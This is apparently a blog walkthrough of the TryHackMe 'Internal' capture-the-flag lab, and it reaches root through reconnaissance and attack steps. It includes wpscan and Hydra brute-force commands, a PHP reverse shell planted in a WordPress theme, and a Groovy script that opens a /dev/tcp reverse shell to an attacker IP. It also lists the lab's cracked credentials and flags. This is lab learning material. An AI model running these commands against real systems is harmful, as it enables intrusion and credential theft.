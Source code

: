 ```yaml
---
title: Internal from TryHackMe
date: 2022-07-10 22:10:10 +0530
categories: [TryHackMe]
tags: [tryhackme]
---
```


-------

This is my first writeup on this blog.

Starting the test with **Nmap** scan, It is found that there is a HTTP server running on port 80 with phpmyadmin, wordpress.

```bash
sudo nmap -sV -A --script vuln inter.thm

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-dombased-xss: Couldn\'t find any DOM based XSS.
|_http-stored-xss: Couldn\'t find any stored XSS vulnerabilities.
| http-enum: 
|   /blog/: Blog
|   /phpmyadmin/: phpMyAdmin
|   /wordpress/wp-login.php: Wordpress login page.
|_  /blog/wp-login.php: Wordpress login page.
```

The scan shows that **wordpress** login is available. On navigating to the login page, it has been found that there is a difference of error thrown, when username is **admin** and something else. we can also confirm this with **WPScan**.

```bash
wpscan --url http://internal.thm/blog/ -e u

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==============> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

And then i started bruteforcing **wordpress** login page with rockyou.txt 
```
wpscan --url http://internal.thm/blog/ -P /usr/share/wordlists/rockyou.txt

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

```

after logging in as **admin** and browsing through the site, you can see a private post as 

> Don’t forget to reset Will’s credentials. william:arnold147

but these credentials could not be used anywhere. 

Later, I have uploaded a PHP reverse shell code in 404.php, in appearance settings as admin. when i browsed through a non-existant page in the site, i was able to get initial shell as **www-data**. we can ugrade our regular shell to a better shell with python's shell emulator.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
I tried to get user.txt with **www-data** account, but it did not have permissions. To run **linpeas** on the _target_ machine, i hosted the file on _my_ kali linux using python's **HTTP.Server** and was able to curl/wget the file from _target_ machine.
```bash
cd /linpeas_folder
python3 -m http.server
```
on _target_ machine
```bash
wget http://[ip]:8000/lineas.sh
```
Now, we can modify the linpeas.sh script with executable permissions and run the script.
```bash
chmod +x linpeas.sh
./linpeas.sh
```

here is snippets of output from linpeas.

```bash
oldpwd=/opt
Sudo version 1.8.21p2
aubreanna
/etc/mysql/debian.cnf
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 root root 3109 Aug  3  2020 /var/www/html/wordpress/wp-config.php                                                                                              
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'wordpress123' );
define( 'DB_HOST', 'localhost' );
/usr/share/openssh/sshd_config 
-rw-r----- 1 root www-data 527 Aug  3  2020 /etc/phpmyadmin/config-db.php
-rw-r----- 1 root www-data 8 Aug  3  2020 /etc/phpmyadmin/htpasswd.setup
```

Here, the **wp-config.php** file has the login credentials of the **phpmyadmin**.

| username | password |
| wordpress | wordpress123 |

After logging into **phpmyadmin**, we can see a table consisting of some credentials and the password is possibly encrypted with MD5.

>admin  $P$BOFWK.UcwNR/tV/nZZvSA6j3bz/WIp/ 

i could not get **John The Ripper** tool to crack this. i thought i will return to this later, but in the end, this was another back hole.

from linpeas, we know **oldpwd=/opt**. _/opt_ has _wp-save.txt_ which has

| aubreanna | bubb13guM!@#123 |

After logging into _target_ machine as _aubreanna_, we can read the _user.txt_ file but we cannot read _root.txt_ file as aubreanna is not a root user.

> THM{int3rna1_fl4g_1}

Along with user.txt, there is another file _jenkins.txt_ which has the following information.
```bash
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```
Since this is internal in target machine, we can use **SSH tunneling** to use internal jenkins.
```bash
ssh -L 4444:ip:port user@host
```

The default credentials _admin:admin_ didn't seem to work on jenkins so i started bruteforcing the POST request to jenkins with **Hydra** to crack the login credentials. i have used burpsuite to intercept the post request and figure out request body.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 16 -s 4444 localhost http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Error" -vV -f
```

| admin | spongebob |

Now, in Jenkins, go to “Jenkins > Nodes > master” and click on “Script Console" from the menu and run **groovy** script to get a revershell in the **Jenkins** docker environment.

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.8.50.72/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
when we get reverse shell and check /opt again in docker env, the root credentials are available clearly.

```bash
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```
we can login to _target_ machine with root credentials we got and check the _root.txt_ file.

| root | tr0ub13guM!@#123 |

> THM{d0ck3r_d3str0y3r}
